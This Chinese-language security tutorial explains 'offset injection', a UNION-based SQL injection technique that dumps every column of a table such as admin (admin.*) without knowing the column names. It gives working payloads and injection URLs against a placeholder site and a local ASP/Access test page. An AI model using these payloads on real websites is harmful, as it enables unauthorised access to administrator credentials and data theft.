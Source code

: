 ## 1、简介

这种注入方式合适在找到表找不到字段的情况下使用。
这种注入方式 需要联合两个表 所以这种注入也是联合查询注入的一种。

## 2、原理

在SQL中查询 select * from admin 星号代表所有字段。

而且 select * from admin 的结果等于下面几种结果

```sql
select admin.* from admin
select admin.id,admin.username,admin.password from admin
select id,username,password from admin
```

在使用位移注入这种注入方法，需要确定当前表的，字段数

表article 的字段为3个

使用联合语句 把另外一个表联合进来查询

```sql
select * from article where id=1 union select 1,2,3 from admin
```

admin的表的字段数同样也是3个 把admin.* 替换1,2,3 

```sql
select * from article where id=1 union select admin.* from admin
```

语句并没有报错 因为列数一样 同样也会显示表admin里面的字段数据

把语句改成这样就会只显示 表 admin的数据 

```sql
select * from article where id=-1 union select admin.* from admin
```

![img](../acess/sd.jpg) 

注意：
使用这种方法
当前表的字段大于或等于联合的表
这里当前表就是 article 联合的表就是 admin

## 3、网站测试

```http
http://target_sys.com/article.php?id=-1 union select admin.* from admin
```

![image-20210410002000627](../acess/image-20210410002000627.png) 

### 4、其他数据库

在其他数据库中也可以使用这种方法，例如access

order by的字段数

```sql
select * from product where id=100 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 from admin
```

product 的表字段数为26 

```sql
select * from product where id=100 union select 1,2,3,4,5,6,7,8,9,10,11,12,* from admin
```

这里的*星号代表admin的字段数 所以用26-13=13 所以admin的字段个数为13

用admin.*替换这里的 * 星号

```sql
select * from product where id=100 union select 1,2,3,4,5,6,7,8,9,10,11,12,admin.* from admin
```

在网站里面测试

```http
http://127.0.0.1:99/ProductShow.asp?ID=100 union select 1,2,3,4,5,6,7,8,9,10,11,12,admin.* from admin
```

![img](../acess/wpsdsdsadas3.jpg) 

这样同样也是可以执行语句 获取数据，也可以将admin.*放到其他列 

```sql
select * from product where id=100 union select admin.*,2,3,4,5,6,7,8,9,10,11,12,13 from admin
```

```http
http://127.0.0.1:99/ProductShow.asp?ID=100 union select admin.*,2,3,4,5,6,7,8,9,10,11,12,13 from admin
```

![img](../acess/wpsdsds4.jpg) 

同样也是可以执行的。

同样星号也可以放在其他位置

```sql
select * from product where id=100 union select *,2,3,4,5,6,7,8,9,10,11,12,13 from admin
select * from product where id=100 union select admin.*,2,3,4,5,6,7,8,9,10,11,12,13 from admin
```

 表名.* 和* 这种同样的可以也是表示字段数 他两种结果是不一样 的。